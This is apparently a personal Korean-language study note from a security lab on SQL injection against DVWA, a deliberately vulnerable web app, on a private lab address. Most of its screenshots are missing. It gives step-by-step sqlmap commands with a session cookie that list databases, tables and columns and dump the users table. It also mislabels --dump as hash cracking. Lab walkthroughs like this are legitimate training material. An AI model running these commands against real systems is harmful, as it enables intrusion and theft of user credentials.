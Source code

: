 ![[Pasted image 20241008122241.png]]
(주의) --(공백) : 주석

impossible
![[Pasted image 20241008122402.png]]
- ' 를 넣어도 아무 반응이 없다.
![[Pasted image 20241008122522.png]]
- 사용자 토큰이 있어서 URL를 바꿔서 넣어도 응답하지 않는다.
- sql injection 만으로는 공략이 어렵다.(다른 취약점과 함께 사용하면 공략할 수도 있다.)
## 자동 점검 툴
[[Zap]]
![[Pasted image 20241008123845.png]]
프록시 툴이지만 취약점 점검이 가능하다
공격방법과 취약점에대한 내용 등 상세한 정보를 확인할 수 있다.

[[sqlmap]]

![[Pasted image 20241008124445.png]]
- id 라는 파라미터가 취약하다는 것을 알고 있다.

![[Pasted image 20241008124727.png]]`sqlmap --cookie="PHPSESSID=ctp9rq6vl8j0dq6okd09bav7c6; security=medium" -u http://192.168.56.120/vulnerabilities/sqli/ --data "id=1&Submit=Submit" -p id`

![[Pasted image 20241008124954.png]]
- 총 4가지 sql injection에 대해서 id라는 파라미터가 갖는 취약점을 설명

`sqlmap --cookie="PHPSESSID=ctp9rq6vl8j0dq6okd09bav7c6; security=medium" -u http://192.168.56.120/vulnerabilities/sqli/ --data "id=1&Submit=Submit" -p id --dbs`
- --dbs: DB 목록 표시
![[Pasted image 20241008140330.png]]

`sqlmap --cookie="PHPSESSID=ctp9rq6vl8j0dq6okd09bav7c6; security=medium" -u http://192.168.56.120/vulnerabilities/sqli/ --data "id=1&Submit=Submit" -p id -D dvwa --tables`
- -D: Database 선택
- ![[Pasted image 20241008140457.png]]

`sqlmap --cookie="PHPSESSID=ctp9rq6vl8j0dq6okd09bav7c6; security=medium" -u http://192.168.56.120/vulnerabilities/sqli/ --data "id=1&Submit=Submit" -p id -D dvwa -T users --col`
- -T 테이블 선택
- --col 컬럼 전체 출력
![[Pasted image 20241008140610.png]]


`sqlmap --cookie="PHPSESSID=ctp9rq6vl8j0dq6okd09bav7c6; security=medium" -u http://192.168.56.120/vulnerabilities/sqli/ --data "id=1&Submit=Submit" -p id -D dvwa -T users --dump`
- --dump: 해시값 크래킹
![[Pasted image 20241008141044.png]]

![[Pasted image 20241008141111.png]]
